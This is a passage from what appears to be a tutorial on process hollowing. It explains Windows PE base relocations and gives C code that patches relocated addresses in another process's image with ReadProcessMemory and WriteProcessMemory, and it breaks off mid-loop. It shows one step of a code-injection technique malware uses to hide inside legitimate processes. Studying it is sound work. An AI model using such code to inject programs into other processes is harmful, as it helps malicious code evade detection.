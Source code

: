 To calculate the number of entries in a block, the size of BASE_RELOCATION_BLOCK is subtracted from BlockSize and the difference is divided by the size of BASE_RELOCATION_ENTRY. The macro below assists in these calculations.

	#define CountRelocationEntries(dwBlockSize)           \
		  (dwBlockSize -                                  \
		  sizeof(BASE_RELOCATION_BLOCK)) /                \
		  sizeof(BASE_RELOCATION_ENTRY)
 
Putting this together we can iterate through each block and its respective entries, patching the addresses of the image along the way.

	DWORD dwRelocAddr = pSourceImage->Sections[x].PointerToRawData;
	DWORD dwOffset = 0;

	IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
		  OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

	while (dwOffset < relocData.Size)
	{
		  PBASE_RELOCATION_BLOCK pBlockheader =
				(PBASE_RELOCATION_BLOCK)&pBuffer[dwRelocAddr + dwOffset];

		  dwOffset += sizeof(BASE_RELOCATION_BLOCK);

		  DWORD dwEntryCount = CountRelocationEntries(pBlockheader->BlockSize);

		  PBASE_RELOCATION_ENTRY pBlocks =
				(PBASE_RELOCATION_ENTRY)&pBuffer[dwRelocAddr + dwOffset];

		  for (DWORD y = 0; y <  dwEntryCount; y++)
		  {
				dwOffset += sizeof(BASE_RELOCATION_ENTRY);

				if (pBlocks[y].Type == 0)
					  continue;

				DWORD dwFieldAddress =
					  pBlockheader->PageAddress + pBlocks[y].Offset;

				DWORD dwBuffer = 0;

				ReadProcessMemory
				(
					  pProcessInfo->hProcess,
					  (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
					  &dwBuffer,
					  sizeof(DWORD),
					  0
				);

				dwBuffer += dwDelta;

				BOOL bSuccess = WriteProcessMemory
				(
					  pProcessInfo->hProcess,
					  (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
					  &dwBuffer,
					  sizeof(DWORD),
					  0
				);
